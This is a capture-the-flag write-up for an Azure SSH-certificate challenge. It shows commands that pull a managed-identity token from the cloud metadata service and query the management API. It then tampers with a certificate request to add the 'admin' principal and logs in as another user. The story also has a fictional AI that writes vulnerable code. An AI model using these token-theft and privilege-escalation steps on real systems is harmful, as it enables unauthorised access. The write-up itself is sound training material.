



# Certificate SSHenanigans

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [Request SSH Certificate](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl)

## Objective

!!! question "Request"
    Go to Pixel Island and review Alabaster Snowball's new SSH certificate configuration and Azure [Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl). What type of cookie cache is Alabaster planning to implement?

??? quote "Alabaster Snowball"
    Hello there! Alabaster Snowball at your service.<br/>
    I could use your help with my fancy new Azure server at `ssh-server-vm.santaworkshopgeeseislands.org`.<br/>
    ChatNPT suggested I upgrade the host to use SSH certificates, such a great idea!<br/>
    It even generated ready-to-deploy code for an [Azure Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) so elves can request their own certificates. What a timesaver!<br/>
    I'm a little wary though. I'd appreciate it if you could take a peek and confirm everything's secure before I deploy this configuration to all the Geese Islands servers.<br/>
    Generate yourself a certificate and use the *monitor* account to access the host. See if you can grab my TODO list.<br/>
    If you haven't heard of SSH certificates, Thomas Bouve gave an introductory talk and demo on that topic recently.<br/>
    Oh, and if you need to peek at the Function App code, there's a handy [Azure REST API endpoint](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control) which will give you details about how the Function App is deployed.<br/>

## Hints

??? tip "Azure VM Access Token"
    *From: Sparkle Redberry*<br/>
    *Objective: Certificate SSHenanigans*<br/>
    Azure CLI tools aren't always available, but if you're on an Azure VM you can always use the [Azure REST API](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token) instead.

??? tip "SSH Certificates Talk"
    *From: Alabaster Snowball*<br/>
    *Objective: Certificate SSHenanigans*<br/>
    Check out Thomas Bouve's [talk and demo](https://youtu.be/4S0Rniyidt4) to learn all about how you can upgrade your SSH server configuration to leverage SSH certificates.

??? tip "Azure Function App Source Code"
    *From: Alabaster Snowball*<br/>
    *Objective: Certificate SSHenanigans*<br/>
    The [get-source-control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control) Azure REST API endpoint provides details about where an Azure Web App or Function App is deployed from.

## Solution

Alabaster gives us a couple steps to get started with this challenge. Let's generate a certificate and SSH to the Azure server  `ssh-server-vm.santaworkshopgeeseislands.org`. Input your public key (generate a key pair if needed using the `ssh-keygen` command) into the website and a certificate is returned with the principal *elf*. 
```
{
    "ssh_cert": "rsa-sha2-512-cert-v01@openssh.com AAAAIXJzYS1zaGEyLTUxMi1jZXJ0LXYwMUBvcGVuc3NoLmNvbQAAACYxMzM5OTA3NjA1NTk5NjIzNzIwOTAxNDk2MzI2MzAzNDU1Nzg4NgAAAAMBAAEAAAEBAKnfcOsxgxtV2XmR76ed9bUOgZKkKH/3XlwAfbXbOPs3VbToJvxBYWge3Da1GB4lgzWrzt5R+MEPFDM17CyPLs0Usiu+2X6vsuQPjDNnNOtwAVB2rVUeFJzzcFMVphNrre9MnQ5nT5yNFZV+IheHjSVKkbtqpPtCY1td2qz7eO7l3SM2lHfdiHGcLnds9Nofo/RbHNe7StD7kG/Tkz4voEH01qP4QvsNcc45EGTNg4pfkAQjvli46xfRtd5+6ngpSw7I+clv94FtmlTZtAdy0PHdrKyNDXBXbJhQMVqcJSU5KYYyMZSaKjbpcPlmvn+a1PAF8MZ1RyT1XXjhZWYO1usAAAAAAAAAAQAAAAEAAAAkMjRiYTdiMGItNTQ0NS00M2E1LWE1YjEtNmVlNDFkOTYxNGYzAAAABwAAAANlbGYAAAAAZXkU4QAAAABlngANAAAAAAAAABIAAAAKcGVybWl0LXB0eQAAAAAAAAAAAAAAMwAAAAtzc2gtZWQyNTUxOQAAACBpNhjTApiZFzyRx0UB/fkzOAka7Kv+wS9MKfj+qwiFhwAAAFMAAAALc3NoLWVkMjU1MTkAAABASv6iiGVkgpYv+9T/4cPgGyL5IgeA0Dnv4pIKpkFzqXEXDv2FC1njjTwRELGxW0o2I7ZRzMQ2otDTgmsItFgZAQ== ",
    "principal": "elf"
}
```
Save this certificate as .pub file. Don't save the entire JSON object - only the ssh_cert value within double quotes. Taking a look at the certificate details we can confirm the file is formatted correctly.

```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh-keygen -Lf id_rsa-cert.pub
id_rsa-cert.pub:
        Type: ssh-rsa-cert-v01@openssh.com user certificate
        Public key: RSA-CERT SHA256:9UbR/yp8kLFHt1G2KYhyKqVh9OAVM8sGsT86masZ6NM
        Signing CA: ED25519 SHA256:gvQLUkenLfTvsxJJzB8CpxgaA5lapSc9YEZZEnLudbk (using ssh-ed25519)
        Key ID: "948e7553-886a-49c1-ac51-07fbb8ddaae6"
        Serial: 1
        Valid: from 2023-12-12T21:55:07 to 2024-01-09T22:00:07
        Principals: 
                elf
        Critical Options: (none)
        Extensions: 
                permit-pty

```
Let's login to the ssh server. After the initial login, we are taken to a SatTrackr application. Looks like a clue to a future challenge. We can return to the monitor prompt using ++ctrl++ ++c++.
```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh -i id_rsa-cert.pub -i ~/.ssh/id_rsa monitor@ssh-server-vm.santaworkshopgeeseislands.org 

```


```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh -i id_rsa-cert.pub -i ~/.ssh/id_rsa monitor@ssh-server-vm.santaworkshopgeeseislands.org
monitor@ssh-server-vm:~$ 
```
Our goal is to find out what cookie cache Alabaster is going to implement, which sounds like we need to get access to the Alabaster's account. The other hints indicate that there is a way to view details of the Function App and where it is deployed from and since we don't have access to the Azure CLI tool, we'll need to use the Azure REST API. Let's see where those other hints lead us.

According to the [Get Source Control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control) API documentation we can query the management API to get the source control information, but we need some parameter values first:

subscriptionId<br/>
resourceGroupName<br/>
site name<br/>

```
GET https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Web/sites/{name}/sourcecontrols/web?api-version=2022-03-01
```
Through some ssearching, I found the [Azure Instance Metadata Service](https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service?tabs=linux), which returned the `subscriptionId` and `resourceGroup`, but did not return the correct site name. I also found that we need an access token to query the Azure REST API.

```
monitor@ssh-server-vm:/etc/ssh/auth_principals$ curl https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/ssh-server-vm/sourcecontrols/web?api-version=2022-03-01 
{"error":{"code":"AuthenticationFailed","message":"Authentication failed. The 'Authorization' header is missing."}}
monitor@ssh-server-vm:/etc/ssh/auth_principals$ 
```
I found how to obtain an [access token](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token#get-a-token-using-curl).

```
monitor@ssh-server-vm:~$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s
{"access_token":"<ACCESSTOKENHERE>","client_id":"b84e06d3-aba1-4bcc-9626-2e0d76cba2ce","expires_in":"84387","expires_on":"1702610755","ext_expires_in":"86399","not_before":"1702524055","resource":"https://management.azure.com/","token_type":"Bearer"}
```
And asked ChatGPT to help me format the curl command correctly:

??? example "See AI Assistance"
    **My Prompt:** how do I format a curl command option for an authorization header for Oauth<br/>
    **ChatGPT Response:** When using OAuth with curl, you typically include the access token in the Authorization header using the "Bearer" authentication scheme. Here's how you can format a curl command with the Authorization header for OAuth:<br/>
    ```
    curl -H "Authorization: Bearer YOUR_ACCESS_TOKEN" https://api.example.com/endpoint
    ```
    Replace YOUR_ACCESS_TOKEN with the actual OAuth access token you have obtained. Additionally, make sure to replace https://api.example.com/endpoint with the specific URL or endpoint you are interacting with.


Now to get the correct site name. After some consideration, I remembered that the Azure101 challenge mentioned some of the information would be useful in the future so I headed back to Azure101 to see what I could find. To speed up my search I had ChatGPT help me format the Azure CLI command:

??? example "See AI Assistance"
    **My Prompt:** what is the command using Azure CLI to get a list of the functionapps related to the resourcegrop 'northpole-rg1'<br/>
    **ChatGPT Response:** To get a list of Azure Functions apps related to a specific resource group using the Azure CLI, you can use the following command:<br/>
    ```
    az functionapp list --resource-group northpole-rg1 --query "[].name" --output table
    ```
    Let's break down the command:<br/>
    az functionapp list: This is the Azure CLI command to list Azure Functions apps.<br/>
    --resource-group northpole-rg1: This specifies the resource group name, in this case, "northpole-rg1".<br/>
    --query "[].name": This uses JMESPath query syntax to extract only the names of the function apps from the output.<br/>
    --output table: This formats the output as a table for better readability.<br/>
    After running this command, you should see a table with the names of the function apps in the specified resource group. Adjust the resource group name as needed for your specific scenario.

```hl_lines="10-11"
az functionapp list --resource-group northpole-rg1 --query "[].name" | less
<SNIP>
    "hostNames": [
      "northpole-ssh-certs-fa.azurewebsites.net"
    ],
    "hostNamesDisabled": false,
    "hostingEnvironmentProfile": null,
    "httpsOnly": false,
    "hyperV": false,
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg
1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa",
    "identity": {
      "principalId": "d3be48a8-0702-407c-89af-0319780a2aea",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "type": "SystemAssigned",
      "userAssignedIdentities": null
    },
<SNIP>
    "slotSwapStatus": null,
    "state": "Running",
    "storageAccountRequired": false,
    "suspendedTill": null,
    "tags": {
      "create-cert-func-url-path": "/api/create-cert?code=candy-cane-twirl",
      "project": "northpole-ssh-certs"
    },
    "targetSwapSlot": null,
    "trafficManagerHostNames": null,
    "type": "Microsoft.Web/sites",
    "usageState": "Normal",
    "virtualNetworkSubnetId": null,
    "vnetContentShareEnabled": false,
    "vnetImagePullEnabled": false,
    "vnetRouteAllEnabled": false
     }
]
```
Now we have the information we need for the get-source-control API query:
subscriptionId: 2b0942f3-9bca-484b-a508-abdae2db5e64<br/>
resourceGroupName: northpole-rg1<br/>
site name: northpole-ssh-certs-fa<br/>

```
curl -s -H "Authorization: Bearer <ACCESSTOKENHERE>" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01

{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web","name":"northpole-ssh-certs-fa","type":"Microsoft.Web/sites/sourcecontrols","location":"East US","tags":{"project":"northpole-ssh-certs","create-cert-func-url-path":"/api/create-cert?code=candy-cane-twirl"},"properties":{"repoUrl":"https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa","branch":"main","isManualIntegration":false,"isGitHubAction":true,"deploymentRollbackEnabled":false,"isMercurial":false,"provisioningState":"Succeeded","gitHubActionConfiguration":{"codeConfiguration":null,"containerConfiguration":null,"isLinux":true,"generateWorkflowFile":true,"workflowSettings":{"appType":"functionapp","publishType":"code","os":"linux","variables":{"runtimeVersion":"3.11"},"runtimeStack":"python","workflowApiVersion":"2020-12-01","useCanaryFusionServer":false,"authType":"publishprofile"}}}}
```
We now have the source code location for the functionapp! [https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa](https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa)

In the [functionapp.py](https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa/blob/main/function_app.py) file we see how the principal is determined for the SSH certificate.

```linenums="45"
    principal = data.get("principal", DEFAULT_PRINCIPAL)

    if not isinstance(principal, str):
        raise ValidationError("principal is not a string.")

    principal = principal.strip()
    logging.info("Principal: %s", principal)

    if not principal.isalpha():
        raise ValidationError("principal contains invalid characters.")
```

Watching Thomas Bouve's KringleCon talk from one of our hints shows us how principal mappings can be used to leverage access to different accounts. This sounds like a good plan of action. Let's find out if there are principal mappings on this server:

```hl_lines="9-12"
monitor@ssh-server-vm:~$ cd /etc/ssh/
monitor@ssh-server-vm:/etc/ssh$ ls
auth_principals  ssh_host_ed25519_key           ssh_host_rsa_key.pub
ca.pub           ssh_host_ed25519_key-cert.pub  sshd_config
moduli           ssh_host_ed25519_key.pub       sshd_config.d
ssh_config       ssh_host_rsa_key
ssh_config.d     ssh_host_rsa_key-cert.pub
monitor@ssh-server-vm:/etc/ssh$ cd auth_principals/
monitor@ssh-server-vm:/etc/ssh/auth_principals$ ls
alabaster  monitor
monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat alabaster 
admin
monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat monitor 
elf
monitor@ssh-server-vm:/etc/ssh/auth_principals$ 
```
Reviewing the files in `/etc/ssh/auth_principals`, we find that the alabaster user is mapped to `admin`. The monitor user is mapped to `elf`, consistent with our current SSH certificate. 

Going back to [https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl), we can intercept the request using Burp and add the `admin` principal to the JSON object.



When the cert is generated it now has the `admin` principal. 



When we save this cert and check the properties, we can confirm it is correct.

```hl_lines="10 11"
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh-keygen -L -f holiday-cert.pub
holiday-cert.pub:
        Type: ssh-rsa-cert-v01@openssh.com user certificate
        Public key: RSA-CERT SHA256:JemVFhjtV0Xk/yKC4qE2qceq0HhrzDUpm+FfIUUnhdg
        Signing CA: ED25519 SHA256:gvQLUkenLfTvsxJJzB8CpxgaA5lapSc9YEZZEnLudbk (using ssh-ed25519)
        Key ID: "ed610ed2-2730-4530-b2ec-73079678d9bc"
        Serial: 1
        Valid: from 2023-12-15T12:58:02 to 2024-01-12T13:03:02
        Principals: 
                admin
        Critical Options: (none)
        Extensions: 
                permit-pty
```

Let's login to the SSH server as alabaster.

```
└─$ ssh -i holiday-cert.pub -i ~/.ssh/holiday alabaster@ssh-server-vm.santaworkshopgeeseislands.org
Warning: Identity file holiday-cert.pub not accessible: No such file or directory.
Last login: Fri Dec 15 17:59:23 2023 from 65.100.39.62
alabaster@ssh-server-vm:~$ whoami
alabaster
```
When we look at the resources we have access to we see `alabaster_todo.md`, which contains the answer to the challenge objective.

```hl_lines="19"
alabaster@ssh-server-vm:~$ ls -la
total 36
drwx------ 1 alabaster alabaster 4096 Nov  9 14:07 .
drwxr-xr-x 1 root      root      4096 Nov  3 16:50 ..
-rw-r--r-- 1 alabaster alabaster  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 alabaster alabaster 3665 Nov  9 17:03 .bashrc
drwxr-xr-x 3 alabaster alabaster 4096 Nov  9 14:07 .cache
-rw-r--r-- 1 alabaster alabaster  807 Apr 23  2023 .profile
drwxr-xr-x 6 alabaster alabaster 4096 Nov  9 14:07 .venv
-rw------- 1 alabaster alabaster 1126 Nov  9 14:07 alabaster_todo.md
drwxr-xr-x 2 alabaster alabaster 4096 Nov  9 14:07 impacket
alabaster@ssh-server-vm:~$ cat alabaster_todo.md 
# Geese Islands IT & Security Todo List

- [X] Sleigh GPS Upgrade: Integrate the new "Island Hopper" module into Santa's sleigh GPS. Ensure Rudolph's red nose doesn't interfere with the signal.
- [X] Reindeer Wi-Fi Antlers: Test out the new Wi-Fi boosting antler extensions on Dasher and Dancer. Perfect for those beach-side internet browsing sessions.
- [ ] Palm Tree Server Cooling: Make use of the island's natural shade. Relocate servers under palm trees for optimal cooling. Remember to watch out for falling coconuts!
- [ ] Eggnog Firewall: Upgrade the North Pole's firewall to the new EggnogOS version. Ensure it blocks any Grinch-related cyber threats effectively.
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times. Don't let Santa eat the cache!
- [ ] Toy Workshop VPN: Establish a secure VPN tunnel back to the main toy workshop so the elves can securely access to the toy blueprints.
- [ ] Festive 2FA: Roll out the new two-factor authentication system where the second factor is singing a Christmas carol. Jingle Bells is said to be the most secure.
```

!!! success "Answer"
    Gingerbread

## Response

!!! quote "Insert Elf Name"
    Oh my! I was so focused on the SSH configuration I completely missed the vulnerability in the Azure Function App.<br/>
    Why would ChatNPT generate code with such a glaring vulnerability? It's almost like it wanted my system to be unsafe. Could ChatNPT be evil?<br/>
    Thanks for the help, I'll go and update the application code immediately!<br/>
    While we're on the topic of certificates, did you know Active Directory (AD) uses them as well? Apparently the service used to manage them can have misconfigurations too.<br/>
    You might be wondering about that SatTrackr tool I've installed on the monitor account?<br/>
    Here's the thing, on my nightly stargazing adventures I started noticing the same satellite above Geese Islands.<br/>
    I wrote that satellite tracker tool to collect some additional data and sure enough, it's in a geostationary orbit above us.<br/>
    No idea what that means yet, but I'm keeping a close eye on that thing!<br/>
